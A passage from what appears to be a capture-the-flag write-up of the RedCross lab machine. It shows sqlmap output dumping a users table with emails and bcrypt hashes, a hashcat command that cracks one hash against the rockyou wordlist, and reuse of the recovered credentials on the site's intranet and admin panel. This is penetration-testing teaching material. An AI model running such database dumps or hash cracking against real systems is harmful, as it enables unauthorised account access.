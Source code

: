 ```
| 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
| 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
| 5  | 1000 | non@available                | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
+----+------+------------------------------+----------+--------------------------------------------------------------+

[17:45:53] [INFO] table 'redcross.users' dumped to CSV file '/root/.sqlmap/output/intra.redcross.htb/dump/redcross/users.csv'
[17:45:53] [INFO] fetched data logged to text files under '/root/.sqlmap/output/intra.redcross.htb'   

[*] shutting down at 17:45:53

```

Over 10 minutes, I got two interesting things:
- A set of usernames and hashes.
- A bunch of messages, including references to the admin panel (if I hadn’t looked for subdomains yet, a queue to do so) and references to interaction between intra and admin.

#### Crack Passwords

These passwords are bcrypt, and would take several days to brute all of rockyou on my computer. However, one cracks really quickly:

```

$ hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt --force
hashcat (v4.0.1) starting...
...[snip]...
$ cat cracked 
$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i:cookiemonster
$ grep -F 'y$10$bj5Qh0AbU' hashes 
charles:$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i

```

The charles account has the password “cookiemonster”.

#### Access to admin

I can log into `intra` now as charles, and see more messages (nothing new from what I saw in the sqli):

![1554222384836](https://0xdfimages.gitlab.io/img/1554222384836.png)

I’ll try those same creds on `admin.redcross.htb`:

![1554221051340](https://0xdfimages.gitlab.io/img/1554221051340.png)

And then redirects me to the login page. In fact, if I log in to `admin.redcross.htb` as guest/guest, it returns the same.

